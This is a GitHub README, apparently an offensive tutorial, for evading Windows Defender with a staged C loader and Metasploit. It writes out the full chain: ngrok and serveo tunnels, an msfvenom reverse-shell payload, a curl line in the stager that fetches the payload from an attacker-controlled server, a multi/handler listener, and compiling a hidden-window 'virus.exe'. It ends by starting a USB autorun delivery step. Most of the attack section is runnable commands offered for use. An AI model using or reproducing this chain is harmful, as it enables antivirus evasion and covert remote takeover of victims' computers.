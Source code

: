 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code.
   - Create a USB with autorun
##

### Install all requirements on debian
   - Install Ngrok
   ```
  wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
  unzip ngrok-stable-linux-amd64.zip
  sudo mv ngrok /usr/local/bin/
  ```
  - install metasploit framework
  ```
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/ubuntu_install.sh > ubuntu_install.sh
  chmod +x ubuntu_install.sh
  ./ubuntu_install.sh
  ```
  - install gcc
  ```
  sudo apt install gcc-mingw-w64-x86-64
  ```
##

### Install all requirements on Arch Linux
   - Install Ngrok
   ```
  git clone https://aur.archlinux.org/ngrok-bin.git
  cd ngrok-bin
  makepkg -si
  ```
  - metasploit framework
  ```
  sudo pacman -S metasploit
  ```
  - install gcc
  ```
  sudo pacman -S mingw-w64-gcc
  ```

##
### Tutorial for bypass Windows Defender

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```

##

- Compile the main.c file for Windows
   - For Windows
   ```
   gcc main.c -o virus -mwindows
   ```
   - For Linux
   ```
   x86_64-w64-mingw32-gcc -o virus.exe main.c -mwindows
   ```

   ## ⚠️ don't forget the -mwindows parameter

## AutoRun USB
 # Now, let's create a USB stick that will automatically run the file (autorun)

  


